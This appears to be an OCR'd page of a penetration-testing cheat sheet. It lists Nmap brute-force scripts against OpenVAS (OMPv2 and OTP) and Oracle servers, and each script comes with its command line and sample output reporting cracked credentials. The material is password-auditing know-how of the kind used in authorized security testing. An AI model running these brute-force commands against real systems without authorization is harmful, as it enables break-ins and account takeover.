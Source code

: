 



## OMPv2 - Brute-Force                              
_Performs Brute-Force password auditing against the OpenVAS manager using OMPv2_
     
     root@hostname: ~/ # nmap -p 9390 --script omp2-brute 192.168.1.12

     |PORT     STATE SERVICE REASON
     |9390/tcp open  openvas syn-ack
     | omp2-brute:
     |   Accounts
     |_    admin:secret => Valid credentials



## OpenVAS-OTP - Brute-Force                         
_Performs Brute-Force password auditing against a OpenVAS vulnerability scanner daemon using the OTP 1_0 protocol_
     
     root@hostname: ~/ # nmap -sV --script=openvas-otp-brute 192.168.1.12

PORT     STATE SERVICE    REASON  VERSION
     |9391/tcp open  ssl/openvas syn-ack
     | openvas-otp-brute:
     |   Accounts
     |     openvas:openvas - Valid credentials
     |   Statistics
     '-.>   Performed 4 guesses in 4 seconds, average tps: 1

## Oracle - Brute-Force                             
_Performs Brute-Force password auditing against Oracle servers_
     
     root@hostname: ~/ # nmap --script oracle-brute -p 1521 --script-args oracle-brute.sid=ORCL 192.168.1.12

     |PORT     STATE  SERVICE REASON
     |1521/tcp open  oracle  syn-ack
     | oracle-brute:
     |   Accounts
     |     system:powell => Account locked
     |     haxxor:haxxor => Valid credentials
     |   Statistics
     |_    Perfomed 157 guesses in 8 seconds, average tps: 19
